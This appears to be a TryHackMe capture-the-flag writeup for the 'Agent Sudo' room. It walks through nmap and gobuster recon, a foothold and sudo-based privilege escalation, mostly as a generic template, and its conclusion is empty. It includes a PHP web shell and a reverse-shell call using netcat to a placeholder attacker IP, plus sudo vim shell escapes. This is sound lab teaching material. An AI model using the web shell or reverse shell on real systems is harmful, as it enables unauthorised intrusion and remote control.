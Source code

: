 # Agent Sudo — TryHackMe Writeup

**Author:** Koushiq Murad  
**Room:** Agent Sudo (TryHackMe)  
---

## Table of Contents
1. [Overview](#overview)  
2. [Tools & Environment](#tools--environment)  
3. [Initial Recon (nmap)](#initial-recon-nmap)  
4. [Enumeration](#enumeration)  
5. [Exploitation — Gaining Foothold](#exploitation---gaining-foothold)  
6. [Privilege Escalation](#privilege-escalation)  
7. [Post-Exploitation & Flags](#post-exploitation--flags)  
8. [Cleanup & Notes](#cleanup--notes)  
9. [References](#references)

---

## Overview

This writeup documents the steps taken to compromise the `Agent Sudo` machine on TryHackMe. The target involves enumeration, discovery of a service or misconfiguration that allows code execution or credential access, and privilege escalation via a sudo misconfiguration or allowed command.

---

## Tools & Environment

- Kali Linux (or any pentest distro)
- nmap
- gobuster (optional)
- curl / wget
- ssh
- linpeas / linenum (for local enumeration)
- sudo -l, id, whoami, find, /etc/passwd examination
- netcat (nc)

---

## 1) Initial Recon (nmap)

Run a quick nmap discovery scan to find open ports and services:

```bash
# Full TCP scan with default scripts and version detection
nmap -sC -sV -p- -T4 <TARGET_IP> -oN nmap_full.txt
```

Typical useful results to look for:
- SSH (22)
- HTTP (80/8080)
- FTP (21)
- SMB (445)
- Other custom services

Open ports discovered should be enumerated further (visit web pages, banner grabbing, anonymous ftp, etc).

---

## 2) Enumeration

### Web service
If a web service is discovered, run gobuster to find hidden directories:

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
```

Look for:
- admin panels
- backup files (.bak, .tar, .zip)
- credentials in files like `config.php`, `.env`, or `backup.zip`

### FTP / SMB
- Try anonymous login on FTP:
```bash
ftp <TARGET_IP>
# or using curl:
curl ftp://<TARGET_IP>/
```
- If files are accessible, download and inspect them for credentials or scripts.

### SSH
- If valid credentials are found (from web or ftp), attempt SSH:
```bash
ssh user@<TARGET_IP>
```

---

## 3) Exploitation — Gaining Foothold

Common foothold methods shown in walkthroughs:

- **Credential leak from web files** — find a password in a config file and use it to SSH in.
- **File upload / command injection** — if a web path allows uploading or executing scripts, use it to get a reverse shell.
- **Exposed service with default credentials** — e.g., admin:admin on some web panels.

Example reverse shell (PHP) if a writable web directory is available:

```php
<?php system($_GET['cmd']); ?>
```

Then call:
```
http://<TARGET_IP>/shell.php?cmd=nc -e /bin/bash <ATTACKER_IP> <LISTENER_PORT>
```
(Replace with a safe, allowed payload and listener `nc -lvnp <LISTENER_PORT>`.)

---

## 4) Privilege Escalation

Once you have a shell as a low-privilege user, perform local enumeration. Useful commands:

```bash
# Basic info
id
uname -a
cat /etc/os-release

# Check sudo rights
sudo -l

# Search for suid binaries and writable files
find / -perm -4000 -type f 2>/dev/null
find / -writable -type f 2>/dev/null

# Check running services
ps aux
```

**Key idea for Agent Sudo:** the name implies a sudo-related escalation. `sudo -l` may reveal allowed commands for the current user without a password, for example allowing execution of a certain script or binary as root. If the allowed command can be abused (e.g., it allows editing files, spawning a shell, running a text editor, or passing unsanitized arguments), escalate to root.

Example flows:

1. `sudo -l` shows a command like:
```
(user) NOPASSWD: /usr/bin/some-script
```

2. If `/usr/bin/some-script` allows writing to a file or accepts arguments you can inject, you can replace/abuse it. For instance, run the script under root and use it to spawn a shell:

```bash
sudo /usr/bin/some-script
# if the script allows passing a command or editing a file, leverage that
```

3. If `sudo` allows running editors like `vim` or `less` as root, you can spawn a shell:
```bash
sudo vim -c ':!sh' -c ':q'
```

Or use `sudo tee` to write a new root cronjob or a new suid binary.

---

## 5) Post-Exploitation & Flags

- Read user and root flags:
```bash
# user flag
cat /home/<user>/user.txt

# root flag
sudo -i
cat /root/root.txt
```

- Collect system information for reporting: `/etc/passwd`, `/var/log`, cron jobs, ssh keys in `/root/.ssh/`.

---

## 6) Cleanup & Notes

- Always follow TryHackMe rules — this is a lab environment. For real engagements, get written permission.
- Remove any files you uploaded (if you were on a real system).
- Document all commands, outputs, and timestamps for your GitHub writeup (helps in reports).

---

## Example Commands Log (for your report)

```bash
# Recon
nmap -sC -sV -p- -T4 <TARGET_IP> -oN nmap_full.txt

# Web enumeration
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt

# If credential found (example)
ssh agent@<TARGET_IP>
# password: some_password_from_config

# Local enumeration
id
sudo -l
find / -perm -4000 -type f 2>/dev/null

# Privilege escalation (example)
sudo /usr/bin/some-script
# or
sudo vim -c ':!sh' -c ':q'

# Flags
cat /home/agent/user.txt
cat /root/root.txt
```

---

## Conclusion

---

**Author:** Koushiq Murad
